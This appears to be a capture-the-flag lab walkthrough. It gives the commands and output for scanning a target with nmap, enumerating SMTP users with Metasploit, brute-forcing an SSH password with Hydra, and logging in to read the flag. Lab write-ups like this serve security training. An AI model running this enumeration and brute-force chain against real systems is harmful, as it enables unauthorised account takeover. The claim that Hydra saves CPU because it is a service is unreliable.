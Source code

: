 ```bash
sudo nmap -vv -sS -p1-10000 -O $IP -oN nmap/initial
```

	Results:
	PORT   STATE SERVICE REASON
	22/tcp open  ssh     syn-ack ttl 63
	25/tcp open  smtp    syn-ack ttl 63
	
***Get informations from the SMTP***

For this, the usage of metasploit framework is essentialy.

```bash
mfsconsole
```

```bash -> mfsconsole
#to get smtp version info
search smtp_version
use 0
set RHOSTS $IP # replace with the ip
exploit
```

	Results:
	[+] 10.10.212.232:25      - 10.10.212.232:25 SMTP 220 polosmtp.home ESMTP Postfix (Ubuntu)\x0d\x0a

```bash -> msfconsole
#to enumerate a username on the smtp
search smtp_enum
use 0
set RHOSTS $IP # replace with the ip
set USER_FILE /usr/share/seclists/Usernames/top-usernames-shortlist.txt
exploit
```

	Results:
	[+] 10.10.212.232:25      - 10.10.212.232:25 Users found: administrator

***Cracking the password from administrator account using hydra***

Using hyrda instead of own CPU saved massevly energy and money. Its an online brute force service. To crack password of account addministrator use ssh.

```bash
hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.212.232 ssh
```

	Results:
	[22][ssh] host: 10.10.212.232   login: administrator   password: alejandro

***Login to machine with ssh and cracked administartor password***
```bash
ssh administrator@$IP
ls
cat smtp.txt
```

	Results:
	THM{who_knew_email_servers_were_c00l?}

---
